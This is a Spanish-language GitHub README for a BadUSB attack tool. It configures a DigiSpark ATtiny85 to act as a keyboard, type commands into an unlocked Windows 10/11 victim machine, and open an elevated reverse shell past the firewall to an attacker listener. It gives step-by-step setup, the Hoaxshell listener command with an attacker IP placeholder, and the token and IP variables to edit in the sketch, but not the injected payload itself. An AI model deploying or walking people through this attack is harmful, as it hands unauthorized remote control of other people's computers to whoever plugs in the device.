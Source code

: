 ## 📝 Descripción
> Script para **DigiSpark ATtiny85** que genera una shell inversa con permisos elevados desde una máquina Windows víctima hacia una máquina atacante, logrando evadir el firewall. 


## ⚙️ Funcionamiento
> El ataque se activa al conectar el dispositivo al puerto USB con la sesión iniciada: el DigiSpark emula un teclado e inyecta los comandos de forma automática, sin intervención del usuario, estableciendo la conexión con la máquina atacante la cual está escuchando solicitudes.


## 💻 Compatibilidad 
> Solo funciona correctamente bajo las siguientes condiciones:
- **Sistema operativo victima**: Windows 10/11
- **Sesión activa**: Escritorio desbloqueado y sesión iniciada
- **Distribucion de teclado victima**: Español Latam (Puedes configurar otra distribución siguiendo un paso adicional.)

 
## ✅ Requerimientos
1. Tener instalado Arduino IDE [Ver Arduino IDE](https://www.arduino.cc/en/software/)
2. Instala los drivers que se encuentran en la carpeta config del repositorio (también puedes buscarlos manualmente si lo prefieres)
3. Descargar e instalar DigiStump Board 1.6.7 a traves del Boards Manager de Arduino (Configuración de Arduino)
```
   https://raw.githubusercontent.com/digistump/arduino-boards-index/refs/heads/master/package_digistump_index.json
```
<img width="1006" height="672" alt="imagen" src="https://github.com/user-attachments/assets/8a467877-c94f-439b-af3d-14c5fcf3aba8" />

4. Este script fue creado para cambiar distribuciones de teclado, y es por esto que para que funcione debes copiar la carpeta DigisparkKeyboard del repositorio y pegarla en la siguiente ruta:
```
C:\Users\tu_usuario\AppData\Local\Arduino15\packages\digistump\hardware\avr\1.6.7\libraries\
```
*Con esto podremos cambiar la linea #define kbd_es_es del script .ino para usar la distribucion de teclado que gustes.*

5. Descargar e instalar la herramienta Hoaxshell de su repositorio oficial (Seguir los pasos del repositorio):
```
git clone https://github.com/t3l3machus/hoaxshell
```


## 🚀 Uso

### 1. Ejecutar Hoaxshell.py
```python
python3 ./hoaxshell.py -s IP_ATACANTE -r -H 'Authorization'
```
<br>
### 2. Copiar el token generado en $i y dejar ejecutandose.
![image](https://github.com/user-attachments/assets/8da49bb0-b57a-4613-9a5a-1bc4f6299157)

<br>
### 3. Abrir Arduino y seleccionar Digispark 16.5 Board.
<img width="858" height="131" alt="imagen" src="https://github.com/user-attachments/assets/3de241e0-7181-44e2-aa3a-a96a26e3e4c1" />
<br>
### 4. Dentro de Arduino, abrir el archivo .ino que se encuentra en la carpeta script del repositorio y modificar las siguientes variables:


- IP_AND_PORT_ATTACKER: Reemplazar por tu IP y puerto de atacante
- TOKEN: Reemplazar por el token generado por hoaxshell
- TOKEN_PART1: Reemplazar con la primera parte del token
- TOKEN_PART2: Reemplazar con la segunda parte del token
- TOKEN_PART3: Reemplazar con la tercera parte del token
- Opcional:  #define kbd_es_es Puedes cambiar esta linea revisando las opciones en config/DigisparkKeyboard/Readme.md

![image](https://github.com/user-attachments/assets/9418035f-eaa7-4b05-ae3b-a7bd19dd68d6)


<br>
### 5. Compilar el script y conectar el ATTINY 85. Una vez hecho esto, el USB estara listo para el ataque.
<img width="2531" height="1378" alt="imagen" src="https://github.com/user-attachments/assets/6d478ecd-7554-4342-a291-28438e7848d8" />

<br>
### 6. Conectar el dispositivo a la máquina victima y esperamos la respuesta en nuestra máquina de atacante.

   
![image](https://github.com/user-attachments/assets/5c8ce65b-5abe-4dae-a521-7f1f90dc95a5)



